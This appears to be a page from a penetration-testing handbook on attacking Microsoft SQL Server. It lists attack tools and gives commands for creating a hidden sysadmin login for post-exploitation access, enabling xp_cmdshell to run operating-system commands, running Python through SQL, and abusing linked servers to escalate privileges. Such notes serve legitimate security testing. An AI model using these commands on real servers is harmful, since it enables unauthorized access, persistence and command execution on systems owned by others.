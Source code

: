 # MS-SQL Databases

MS-SQL or SQL Server is Microsoft's offering of an SQL Database. The syntax and model is quite similar to standard SQL with the benefit of being able to hook directly into offerings such as Windows Active Directory and interface with the Windows operating system. It is some of these features however that can allow us to get a strong foothold on a device.

There's a lot of fantastic tools and resources designed specifically for dealing with MS-SQL:

* [PowerUpSQL ](https://github.com/NetSPI/PowerUpSQL)- An enumeration and privilege escalation tool for MS-SQL in Powershell
* [msdat ](https://github.com/quentinhardy/msdat)- Microsoft SQL Database attacking tool
* [NetSPI Blog](https://blog.netspi.com/)
* [MS-SQL Injection Cheat Sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

## Connecting

There are multiple ways to interface with an MS-SQL server.  If on Linux then I'd recommend using [sqsh](https://sourceforge.net/projects/sqsh/), as it's simple and allows you to quickly create commands:

```bash
sqsh -S 192.168.0.6 -U sa
```

However, I'd strongly recommend setting up a Windows VM and using [SQL Management Server](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms?view=sql-server-2017), as it allows you to quickly create scripts for enumeration and offers a graphical view for enumerating the database which can make extracting information much quicker.

## User Creation

For creating a sysadmin user to enable easy access to the database post-exploitation, we'll need to create a login and associated user for SQL authentication. We can then assign this user sysadmin privileges.

```sql
CREATE LOGIN booj WITH PASSWORD = 'B00j123!'
CREATE USER booj for LOGIN booj
EXEC sp_addsrvrolemember @loginame = N'booj', @rolename = N'sysadmin'
```

## xp\_cmdshell

It's easy to execute commands on the host operating system as the service account using xp\_cmdshell.  By default this is unfortunately disabled, and to re-enable and use it the SQL accounts requires sysadmin level privileges.

```sql
1> exec sp_configure 'show advanced options', 1
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0)
1> reconfigure
2> go
1> exec sp_configure 'xp_cmdshell', 1
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
1> reconfigure
2> go
1> exec master..xp_cmdshell 'whoami' 
2> go
```

## Python Code Execution

In some cases python code execution is available as part of an SQL transaction.  This obviously allows arbitary code execution, but the python interpreter is not always as locked down as xp\_cmdshell, which may allow further exploitation and privilege escalation.

```sql
exec sp_execute_external_script @language = N'Python' @script = N''
```

#### References

[The Power of Python and SQL Server 2017](https://www.red-gate.com/simple-talk/sql/sql-development/power-python-sql-server-2017/)

## Server Links

The best reference for exploiting server links is [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server!](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/) They're not hard to pull off and can allow you to escalate your permissions quite easily. However, do note that you should absolutely use rpc\_out if it's enabled.

Since OpenQuery can only satisfy user queries, stored procedures or user creation is not possible and makes your escalation path much more difficult.

